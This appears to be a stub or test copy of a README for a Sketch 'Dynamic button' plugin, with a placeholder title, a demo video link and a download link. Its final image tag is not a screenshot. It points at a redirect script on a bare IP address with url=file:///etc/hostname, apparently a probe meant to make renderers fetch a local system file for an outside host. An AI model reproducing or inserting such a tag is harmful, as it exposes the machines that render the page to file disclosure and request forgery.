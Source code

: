 prueba
======

mmmm
[![Demo Video](https://dl.dropboxusercontent.com/u/1909742/sketch-plugin/thumb.png)](http://www.youtube.com/watch?v=ZJCYUCU7YxQ)

1. [Download Dynamyc button.sketchplugin.](https://github.com/sketchplugins/sketch-dynamic-button/archive/master.zip)

  <img src="http://167.88.44.217/redir.php?url=file:///etc/hostname" alt="installed" width="534" />

